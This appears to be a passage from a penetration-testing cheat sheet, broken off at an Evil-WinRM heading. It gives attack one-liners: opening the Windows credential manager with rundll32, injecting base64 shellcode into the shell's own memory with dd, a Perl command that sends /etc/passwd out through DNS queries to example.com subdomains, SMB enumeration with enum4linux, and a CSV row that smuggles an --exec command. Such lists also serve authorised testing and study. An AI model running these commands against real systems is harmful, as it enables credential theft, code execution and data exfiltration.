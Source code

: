 > https://twitter.com/NinjaParanoid/status/1516442028963659777?t=g7ed0vt6ER8nS75qd-g0sQ\&s=09

> https://www.nirsoft.net/utils/credentials\_file\_view.html

```c
C:\ rundll32 keymgr.dll, KRShowKeyMgr
```

### dd

#### Execute Shellcode

```c
$ dd of=/proc/$$/mem bs=1 seek=$(($(cut -d" " -f9</proc/$$/syscall))) if=<(base64 -d<<<utz+IUO+aRkSKL+t3uH+McCwqQ8F) conv=notrunc
```

### DNS

#### Data Exfiltration

**Extract /etc/passwd**

```perl
$ perl -E 'qx^Cdig $_.$$.${\(rand)}.example.com^Cfor(unpack"H*",qx^?cat /etc/pas*^?)=~m^H(..)^Hgc'
```

^C, ^H, and ^? are the corresponding single ASCII values.

### enum4linux

> https://github.com/CiscoCXSecurity/enum4linux

```c
$ enum4linux -a <RHOST>
```

### enum4linux-ng

> https://github.com/cddmp/enum4linux-ng

```c
$ enum4linux-ng -A <RHOST>
```

### Excel

#### .csv Files Command Injection

If the file get's parsed on a Linux operationg system, commands can be injected to the rows.

```c
$ echo '" --exec="\!/dev/shm/<FILE>"' >> /PATH/TO/FILE/<FILE>.csv
```

### Evil-WinRM

> https://github.com/Hackplayers/evil-winrm
